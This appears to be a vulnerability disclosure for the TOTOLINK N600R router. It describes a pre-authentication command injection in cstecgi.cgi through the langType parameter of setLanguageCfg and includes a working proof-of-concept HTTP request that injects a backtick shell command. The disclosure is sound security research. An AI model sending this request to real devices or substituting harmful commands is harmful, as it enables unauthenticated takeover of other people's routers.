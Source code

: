 # Information



Vendor of the products:  Shenzhen Shengshi Zhongtang Technology Co., Ltd..(TOTOLINK)

Vendor's website:  [TOTOLINK](https://totolink.tw/)

Reported by:  Wang Jinshuai(3265296623@qq.com),   Tang Bingcheng(2640807724@qq.com)

Affected products:  TOTOLINK N600R

Affected firmware version:  V4.3.0cu.7866_B20220506

Firmware download address:  [N600R 雙倍飆速無線分享器｜TOTOLINK 台灣](https://totolink.tw/support_view/N600R)



# Overview

The vulnerability resides in the /web_cste/cgi-bin/cstecgi.cgi binary. The sub_4159F8 routine obtains user-supplied input from the frontend and concatenates it into the argument of the system() call without proper validation or sanitization, resulting in a pre-authentication command injection flaw. An unauthenticated attacker can submit specially crafted payloads to execute arbitrary system commands.



# Vulnerability details

Through analysis of the /web_cste/cgi-bin/cstecgi.cgi binary that provides the device’s web service, a pre-authentication command injection vulnerability was identified. Around line 260 in main, the program matches the user input against the string setting/setLanguageCfg, and upon a match, execution branches to approximately line 340.

![image-20250828151423665](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281514696.png)

It then consults the set_handle_t dispatch table to resolve the corresponding handler based on the matched value and invokes it.

![image-20250828151749581](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281517612.png)

The setLanguageCfg entry resolves to the handler at sub_415840.

![image-20250828152903482](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281529503.png)

At approximately line 405 in main, the resolved handler is retrieved and invoked.

![image-20250828152807766](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508281528787.png)

The variable Var receives client-supplied data via the langType parameter and is directly concatenated into v5 using sprintf(). Due to the lack of strict input validation, an attacker can leverage backtick-based command substitution to execute arbitrary commands.

![image-20250826153724887](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130214.png)



# POC

```python
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 73
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/login.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
"topicurl":"setting/setLanguageCfg",
"langType":"`ls -l > ../123.txt`"
}
```

# Effect Demonstration

![image-20250826153644908](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130729.png)




![image-20250826153629484](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202508272130868.png)

